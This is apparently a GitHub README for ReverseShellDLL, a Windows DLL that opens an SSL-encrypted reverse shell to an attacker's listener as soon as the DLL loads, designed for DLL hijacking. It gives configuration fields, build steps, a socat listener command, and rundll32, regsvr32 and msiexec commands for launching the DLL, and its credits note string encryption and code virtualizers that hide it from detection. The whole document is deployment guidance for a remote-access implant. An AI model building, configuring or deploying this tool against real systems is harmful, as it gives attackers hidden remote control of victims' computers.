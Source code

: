 ReverseShellDLL
===============

Main Features
-------------
1. Universal DLL Hijack - ReverseShellDLL uses the DLL_PROCESS_ATTACH notification to ensure that the reverse shell is executed regardless of the export called. When the reverse shell exits, the process is gracefully terminated, hence the "export not found" error message will never show. 
2. SSL Encryption - ReverseShellDLL uses OpenSSL library to perform the encryption.
3. Statically Linked - ReverseShellDLL will run on all recent Windows versions out of the box without need for .NET framework or Microsoft C Runtime library to be installed.

![image](https://limbenjamin.com/media/reverseshelldll.png)

Configuration
-------------
```
domain 	- Domain/IP Address where listener is running
port 	- Port where listener is running
process - Shell to Execute (i.e. cmd.exe, powershell.exe, bash.exe)
exitCmd	- Typing this Cmd will cause the program to terminate


bufferSize (bytes) / delayWait (millisecs)
- High bufferSize and high delayWait will result in huge chunks of output to be buffered and sent at one time.
- Low bufferSize and low delayWait will result in "smooth" terminal experience at the expense of more small packets.  

* Some binaries verify that exports match before loading DLLs. You might have to change the export names in ReverseShellDLL.cpp to match the target hijack binary.

```

Compilation Instructions
------------------------
1. Install OpenSSL. I used the version from [https://slproweb.com/products/Win32OpenSSL.html](https://slproweb.com/products/Win32OpenSSL.html). Installation path is `C:\Program Files\OpenSSL-Win64`. Make sure to select the option to copy DLL to system folder during installation. Otherwise, you may have to tweak the Project Properties to get it to compile.
2. Git clone repository
3. Configure as necessary
4. Build binary

Running
-------
1. Generate SSL cert on listener machine
```shell
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
cat key.pem cert.pem > test.pem
```
2. Start listener. I have success with socat 1.7.3.2 and later. Earlier versions might have issues with protocol negotiation. If using bash, removing crnl from socat command line.
```shell
socat openssl-listen:1443,reuseaddr,cert=test.pem,verify=0,fork,crnl -
```
3. Deploy DLL in appropriate hijack location. If necessary, it can also be started via rundll32, regserver32 or other LOLBINs.
```shell
rundll32.exe ReverseShellDLL.dll,UniversalSoWhatEverYouTypeHereWillWork
rundll32.exe ReverseShellDLL.dll,CoCreateInstance
regsvr32.exe ReverseShellDLL.dll
msiexec /y "C:\path\to\dll\ReverseShellDLL.dll"
```


Credits
-------
1. Modified version of https://github.com/limbenjamin/ReverseShellDll
2. Added compile time string encryption https://github.com/JustasMasiulis/xorstr
3. Thanks to https://github.com/JackBro/BetaShield/tree/master/3rd/Protector/CodeVirtualizer for CodeVirtualizer x64
4. Thanks to https://github.com/Sthephanfelix/Overwatch-Aimbot/blob/master/VMProtectSDK64.lib for VMProtect x64
